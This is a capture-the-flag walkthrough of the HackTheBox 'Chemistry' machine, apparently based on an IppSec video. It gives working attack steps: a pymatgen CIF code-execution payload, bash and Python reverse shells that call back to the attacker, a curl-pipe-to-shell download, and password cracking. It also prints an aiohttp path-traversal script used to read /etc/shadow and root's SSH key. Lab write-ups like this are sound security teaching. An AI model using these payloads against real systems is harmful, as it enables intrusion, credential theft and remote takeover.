# Walkthrough: HTB - Chemistry
Disclaimer: This walkthrough is based on the official Video Walkthrough by IppSec(https://youtu.be/OH00LkpHyLk?si=GH_zUFkOhH8wgyuP), where I followed and tested the steps directly.
## Enumeration

```
sudo nmap -sV -sC -A -Pn <ip addr>
```

Results:
- **22/tcp** - SSH (OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0))
- **5000/tcp** - upnp -> an accessible HTML page through a browser\



### Registering a New Account

After registering a new account, we can access the dashboard of the web application.\


**Observation**: Possible to upload a **CIF file**

According to the summary of the box, it is vulnerable to CIF file parsing exploits. The vulnerability exists in the `pymatgen` library (CVE-2024-23346).

The following PoC is used from: https://github.com/advisories/GHSA-vgv8-5cpj-qj2f

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 <local ip addr>");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

#### Testing Code Execution

Modify the `.system` call to ping our machine through the VPN IP address.

Start a listener on our local machine:
```
sudo tcpdump -n -i tun0 icmp
```


Expected Results:
- Successful ping received on our local machine ✅
- Target web application throws an error due to failing to process the file ❌

## Setting Up a Reverse Shell
### Attempt 1: Bash Reverse Shell
Modify `.system` in `vuln.cif`:
```
.system ("bash -c 'bash -i >& /dev/tcp/<local ip addr>/<port> 0>&1'")
```
Start listener:
```
nc -nvlp 1234
```
**Result**: No shell received ❌

### Attempt 2: Base64 Encoding the Payload
Encode payload in Base64:
```
cat tmp | base64 -w 0
```


Update `.system` in `vuln.cif` payload:
```
.system ("echo <base64_payload> | base64 -d | bash")
```
**Result**: No shell received ❌

### Attempt 3.1: Using Curl
Modify `.system` in `vuln.cif`:
```
.system ("curl http://<local ip addr>:<port>/attack")
```
Start a listener on our attack machine:
```
python3 -m http.server 1111
```


**Result**: Curl request successful ✅, but no shell yet ❌

### Attempt 3.2: Using Curl to Reverse Shell
Modify `.system` in `vuln.cif`:
```
.system ("curl http://<local ip addr>:<port number for hosted machine directory>/atk | bash")

example:
.system ("curl http://<local ip addr>:1111/atk | bash")
```
**Note**: Set the directory that will be curled by the victim machine\
Set payload inside `atk` file that will be curled:
```
bash -i >& /dev/tcp/<local ip addr>/<listening port number> 0>&1

example:
bash -i >& /dev/tcp/<local ip addr>/1234 0>&1
```


Host the file:
```
python3 -m http.server 1111
```
Start a listener:
```
nc -nvlp 1234
```


Result:\


- Curl request successful ✅, but shell payload is not working ❌

### Attempt 4: Using Python Reverse Shell
Modify `.system` in `vuln.cif`:
```
.system ("curl http://<local ip addr>:<port>/atk | python3")
```
Python reverse shell payload inside file named `atk` that will be curled in the first command:\
**Note**: Source for python reverse shell: https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKING-IP",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
Host the file & start listener: 
```
python3 -m http.server 1111
nc -nvlp 1234
```


**Result**: Reverse shell successful ✅

Try using better shell:
On the connected reverse shell, enter the following command **while** set up another listener to the same port:
```
bash -c 'bash -i >& /dev/tcp/10.10.16.19/1234 0>&1'
```
Result:\


### Attempt 5.1: Using Bash for Reverse Shell
**Note**: We need to establish the successful Python Reverse Shell to help troubleshooting the Bash problem\
Modify `.system` in `vuln.cif`:
```
.system ("curl http://<local ip addr>:<port number for hosted machine directory>/atk 2>/dev/shm/error | bash 2>dev/shm/error")
```
Modify the payload in `atk` (Save the previous payload used in Python to `atk.py` so it can be used in case connection is lost for Python Reverse Shell):
```
bash -c 'bash -i >& /dev/tcp/10.10.16.19/1234 0>&1'
```
The objective of this command is to redirect error messages to the file called `error`.

From the successful reverse shell in Python, try to access the path `/dev/shm/` and open the `error` file.\


#### Attempt 5.2
Modify `.system` in `vuln.cif`:
```
.system ("curl http://<local ip addr>:<port number for hosted machine directory>/atk 2>/dev/shm/error | bash 2>dev/shm/error2")
```
Check the error message again:\


It shows that we have a typo to b*ash. There's a possibility that the `b` is a special character and a * is attached to it.

#### Attempt 5.3
Modify `.system` in `vuln.cif`:
```
.system ("curl http://<local ip addr>:<port number for hosted machine directory>/atk 2>/dev/shm/error | sh 2>dev/shm/error2")
```
Result:\


**Note**: While attempting this, I encountered multiple errors where the expected Bash error messages did not appear, and the command in step 5.3 failed to execute. To troubleshoot, I changed the directory name to something different and retried the steps from 5.1 onward until I achieved the expected result. This helped verify whether my commands were working correctly.

## Dumping the Database
On the **reverse shell**:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
**Upgrade shell**:
1. Suspend the ongoing shell: `Ctrl + Z`
2. Run on your local terminal:
```
stty raw -echo; fg
```
3 After shell is upgraded, check open ports:
```
ss -lntp
```

4. Dump database with SQLite:
```
sqlite3 database.db .dump
```






5. Clean the dump:
```
cat db_dump | awk -F'\'' '{print $2":"$4}' > db_dump_clean
```


## Cracking Passwords
Using `John The Ripper`:
```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 db_dump_clean
john --show --format=raw-md5 db_dump_clean
```

## Privilege Escalation
### Finding Users with Shell Access
```
grep sh$ /etc/passwd
```


### Switching to `rosa` User
```
su - rosa
```


### Looking for internaly hosted web
```
ss -lntp
```
Look for routing tables in: `/etc/iptables/rules.v4`

## Port Forwarding & Exploiting Path Traversal
### Enable SSH command line
Try the following command on the reverse shell:
```
~C
```
Unsuccessful Result:\


Modify `/etc/ssh/ssh_config` in YOUR local file by adding the following line:
```
EnableEscapeCommandLine yes
```


Succesful Enable Command Line:\


### Forwarding Internal Web Server
```
ssh -L 8081:127.0.0.1:8080
```
Note: port `8080` is the port number that is identified during `ss -lntp` command where we identified an internal HTTP port

Open browser: `127.0.0.1:8081`\


## Exploiting the Internal Website
### Checking running processes
```
ps -ef --forest
```

```
ps -ef --forest | less -S
```


We found 2 important proceses here:
1. The process that started the application that we can access externally, hosted on port 5000.
2. The process that started the application that is hosted internally on port 8080. `/opt/monitoring_site/app.py`

### Show Header of the Internal Web App
```
curl -I <ipaddr>:<port>
```


Learn more about `aiohttp` and get a POC to exploit it from: https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh

Exploit[.]sh content:
```
#!/bin/bash

url="http://localhost:8081"
string="../"
payload="/static/"
file="etc/passwd" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

Unsuccessful result:


#### Solution 1: Change the payload from `static` to `assets` 
Reason: Because `assets` is one of the available valid path on the internal web app



#### Solution 2: Use direct command
```
curl --path-as-is http://localhost:8081/assets/../../../../../../../etc/passwd
```
This is prove that we can explore local directories, so we can try accessing `etc/shadow`

### Getting Root Access
Modify the path from `etc/shadow` to `/root/.ssh/id_rsa` or `/root/.ssh/authorized_keys` to understand what kind of ssh key is used



Store SSH key locally:
```
curl --path-as-is http://localhost:8081/assets/../../../../../../../root/.ssh/id_rsa > root.pem
```


Change SSH Key permission:
```
chmod 600 root.pem
```

Login as Root:
```
ssh -r root.pem root@<ipaddr>
```

## Additional exploration: Root Cause Analysis of Vulnerable Path Traversal
```
cd /opt/monitoring_site
nano app.py
```



**Fix**: Ensure `follow_symlinks` is **disabled** to prevent directory traversal

## Additional exploration: Root Cause Analysis of 8080 Restricted Access
```
iptables -L -n
```


The IP Tables specifically reject user with UID 1001, which is `app`.

It is set up on `/etc/iptables/rules.v4`\


---

## Conclusion
- Successfully gained initial access via CIF file upload
- Exploited Python RCE to obtain reverse shell
- Escalated privileges through internal web service enumeration
- Used path traversal to extract root credentials

🎯 Root achieved! ✅
